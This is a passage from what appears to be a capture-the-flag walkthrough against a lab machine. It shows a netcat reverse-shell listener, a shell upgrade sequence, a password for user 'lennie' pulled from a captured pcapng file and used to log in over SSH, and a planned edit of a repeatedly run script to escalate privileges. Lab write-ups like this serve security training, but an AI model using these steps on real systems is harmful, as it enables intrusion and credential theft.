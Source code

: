 ```bash
nc -nlvp 443
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/47c2e507-4731-4efc-a93d-1611937786bd"></picture><br>We run our malicious file from the web and wait.</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/5df821df-1b48-4c03-9978-2abae7b58d10"></picture><br>We are in.</h3>

### **- We apply a TTY treatment.**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 61 columns 184
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a9df70d9-d9ae-4685-8cec-aa5644042d46"></picture><br>Now we have to investigate what we can find out in order to earn privileges.</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/797fd5cd-8192-4d25-8cdd-e16d3453d74a"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/0d3fca54-1f4b-4119-a025-b89410034340"></picture><br>As we can see here we find a “.pcapng” file that when doing a google search indicates that we can check it with Wireshark, this indicates that this file is probably storing the network traffic and possible information that can be of help to us.</h3>

### **- Move the file to the FTP folder in order to download it.**

```bash
cp /incidents/suspicious.pcapng /var/www/html/files
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1a559316-c126-4688-b5f0-6f8334e0ad94"></picture><br></h3>

### **- now with WireShark we can analyze the file**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/c5815368-0a38-4a53-9b42-6ed68e5a6fbb"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/49e83764-09f6-4815-953a-3774d324556e"></picture><br>We have credentials for “lennie”.<br>c4ntg3t3n0ughsp1c3</h3>

### **- We connect via SSH with the new credentials**
```bash
ssh lennie@10.10.95.93
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/574e7b66-46fd-44aa-9d53-2812d0568d66"></picture><br></h3>

### **- Doing some research**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a488d338-9533-404c-85a3-03c7a45b9bca"></picture><br>Our first flag.</h3>

### **- something that strikes me is that the file “startup_list.txt” is constantly updating which makes us think that as these 3 files are doing something behind so we will modify the print.sh to see if we can make any changes.

